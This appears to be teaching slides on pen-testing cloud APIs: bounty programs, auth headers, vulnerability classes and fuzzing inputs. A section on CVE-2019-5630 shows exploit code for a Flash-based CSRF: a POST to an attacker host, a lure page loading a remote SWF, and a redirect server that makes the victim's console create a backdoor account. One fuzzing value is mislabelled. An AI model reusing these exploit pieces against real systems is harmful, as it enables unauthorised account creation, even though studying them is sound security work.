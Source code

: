 # Pen-testing Cloud APIs: Study Material

##### Author Bio
- https://www.rodneybeede.com/curriculum%20vitae/bio.html

---

## Cloud Vendor Programs

- AWS
  - No public bug-bounty reward (VRP) program
- Google Cloud
  - _If a vulnerability is found, please report it via the Vulnerability Reward Program._
  - https://bughunters.google.com/
- Microsoft Azure
  - "enable responsible security testing" … "without causing harm"
  - https://www.microsoft.com/en-us/msrc/pentest-rules-of-engagement
  - https://www.microsoft.com/en-us/msrc/bounty
- Salesforce
  - "…invitation-only program…"
  - https://trailhead.salesforce.com/content/learn/modules/salesforce-bug-bounty-program/get-to-know-the-salesforce-bug-bounty-program
  - https://www.salesforce.com/company/legal/disclosure/
- OpenStack
  - Open source accessibility for testing
  - https://security.openstack.org/reporting.html

---

## What Uses Cloud APIs

- Command line tools
  - Some remote client to the API endpoint server
- Servers
  - Some web app calls other services' APIs
  - Example: Web app stores a file upload into Cloud Object Storage via an API call
- Web browsers
  - AJAX / JavaScript

---

## API Authentication (Common)

- Passed in an HTTP header
  - Authorization: Bearer some-token
  - Authorization: Basic cm9kbmV5OnRoYW5rc2ZvcmRlY29kaW5n
  - X-Auth-Token: some-token
  - Cookie: session-id=abcdef1234567890
  - Etc.
  
---

## API Vulnerability Example: CVE-2019-5630

- Endpoint for the API and the Web UI were shared
- API accepted call with Authorization or Cookie headers
- CSRF was possible
- https://www.rodneybeede.com/security/cve-2019-5630.html

## CVE-2019-5630

- Back when Flash was still in browsers
  - Site with malicious csrf.swf
- Send user a redirect to their own Nexpose InsightVM console API
- API endpoint "Content-Type: application/json"
  - Not typically allowed to set this via CSRF (web browser limitation)
  - Flash allowed this however
  - Lesson: **Don't assume** Content-Type is safe enough for CSRF prevention
- Web browser helpfully passed Cookie auth header
- REST API used authenticated session as user to create backdoor account

```javascript
      var url:String = "http://big-mean-attacker.rodneybeede.com:80/";
      var request:URLRequest = new URLRequest(url);
      request.requestHeaders.push(new URLRequestHeader("Content-Type","application/json"));
      request.data = myJson;
      request.method = URLRequestMethod.POST;
```
https://github.com/rbeede/CVE-2019-5630/blob/master/csrf.as#L33

```html
<object width="500" height="500" data="http://big-mean-attacker.rodneybeede.com/csrf.swf"></object>
To see more cute cats "Click to enable Adobe Flash Player"
```

```python
class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
    def do_POST(s):
       # dir(s)
        if s.path == '/csrf.swf':
           s.send_response(200)
           s.send_header("Content-Type","application/x-shockwave-flash")
           s.end_headers()
           s.wfile.write(open("csrf.swf", "rb").read())
           return 
        elif s.path == '/pause':
           s.send_response(200)
           return
        s.send_response(307)
        s.send_header("Location", "https://rapid7.insightvm.example.com/api/3/users")
        s.end_headers()
```
https://github.com/rbeede/CVE-2019-5630/blob/master/hack-py-redirect-server.py

---

## API Types

- REST
  - HTTP headers play big role
  - HTTP request content payload
    - Popular to see json now
    - Sometimes plain HTTP form encoded data
- XML
  - Popular for SAML
  - Hint: Look for XXE attacks
- SOAP
  - Older, Not as popular today
  - Had WSDL (Web Service Definition Language)
- Some APIs support multiple
  - Example:  AWS S3 supports SOAP and REST

---

## Cloud Shared Responsibility Model

- Customer Responsibility
  - Configuration of customer account settings
  - Applying ACLs to data correctly
  - Customer provided software security
- Cloud Provider Responsibility
  - Infrastructure security
  - Web service (API, UI) code security
  - Data storage security (as specified by customer)
- We will be pen testing the cloud APIs themselves
  - Cloud Provider responsibility

---

## Cloud API Vulnerabilities

- Confused-deputy
  - Mishandled user input & authorization leads to customer data exposure
- Same account ACL (IDOR) bypass
  - Violating an IAM policy
- XSS
  - Reflective not very common (due to content-type) but not impossible
  - Persistent or DOM possible
- SSRF
  - Obtaining access to internal systems
- DoS
  - Causing API to exhaust provider resources
- HTTP 500 Errors
  - More useful than you think
- More: [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)

---

## Discussion: API Input Fuzzing/Tampering

- Param is some type of number?
  - currpage = 1
- Try an unexpected number value
  - currpage = 4294967297
    - 2^32  +  1
  - currpage = -2147483649
    - 2^31 - 1
  - 2^64, 99999999999999999999999999999999999999999999, etc.
- Try no value
  - null, "", None, currpage=&nextparam…
- Did you get an unexpected (HTTP 500) error?

---

## Cloud Vendor Vulns

  - No exact number
    - Internally discovered vulns not published
  - Some public sources:
    - "Google Cloud: Here are the six 'best' vulnerabilities security researchers found last year" ([link](https://www.zdnet.com/article/google-cloud-here-are-the-six-best-vulnerabilities-security-researchers-found-last-year/) – zdnet.com; 2021)
    - Blogs ([https://github.com/hashishrajan/cloud-security-vulnerabilities](https://github.com/hashishrajan/cloud-security-vulnerabilities); 2023)
  - Azure – ~438 CVEs [(link - notcve.org)](https://notcve.org/search.php?query=Azure++vendor%3AMicrosoft)
  - Google Cloud – 206+ ([link](https://cloud.google.com/support/bulletins) – published by google.com)
  - AWS Security Bulletins – 51+ ([link](https://aws.amazon.com/security/security-bulletins/) – published by amazon.com)

These numbers do not mean one vendor is better than another. Just shows vulns do exist.

---

Next - [Authorization Vulnerabilities](auth-vulns.md)
